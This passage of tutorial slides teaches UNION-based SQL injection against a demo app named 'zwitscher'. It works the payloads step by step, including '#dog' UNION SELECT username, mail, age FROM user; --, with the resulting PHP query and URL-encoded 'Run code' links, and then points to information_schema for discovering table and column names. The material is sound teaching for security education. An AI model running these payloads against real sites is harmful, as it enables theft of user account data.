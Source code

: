 [Run code](../zwitscher/?search=%27+UNION+SELECT+1%2C+2%2C+3%3B+--+)

:)

---

## Third Try

- How many columns are in the result of the first query?
- Three columns!
- Select three columns: *username*, *mail*, *age*
<br />
<br />

Input: <span style="color:crimson">#dog' UNION SELECT username, mail, age FROM user; -- </span>

```php
$sql = "SELECT * FROM zwitscher
        WHERE hashtag = '#dog'
        UNION
        SELECT username, mail, age FROM user; -- ';";
```

[Run code](../zwitscher/?search=%23dog%27+UNION+SELECT+username%2C+mail%2C+age+FROM+user%3B+--+)

Bingo!

---

## Recap

- Different tables can be read

- There are problems:
    - Table names unknown
    - Field names unknown

<br />
<br />
<br />

### What now?

---

## Getting table and column names

- Metadata available in [information_schema](https://dev.mysql.com/doc/refman/8.0/en/information-schema.html)
- Mostly in:
    - [information_schema.tables](https://dev.mysql.com/doc/refman/8.0/en/information-schema-tables-table.html)
    - [information_schema.columns](https://dev.mysql.com/doc/refman/8.0/en/information-schema-columns-table.html)
<br />
<br />
<br />
